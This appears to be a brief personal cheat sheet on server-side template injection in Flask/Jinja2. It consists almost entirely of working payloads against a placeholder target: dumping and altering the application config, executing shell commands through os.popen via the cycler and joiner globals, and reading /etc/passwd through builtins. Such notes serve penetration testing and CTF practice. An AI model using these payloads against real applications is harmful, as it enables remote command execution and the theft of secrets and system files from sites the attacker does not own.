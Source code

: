 ## temp notes
http://target.dom/{{1+1}}
http://target.dom/{{config.items()}}

add os vars
http://target.dom/{{config.from_object('os')}}
http://target.dom/{{config.items()}}

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

- remote code execution
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}`


- read remote file
`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`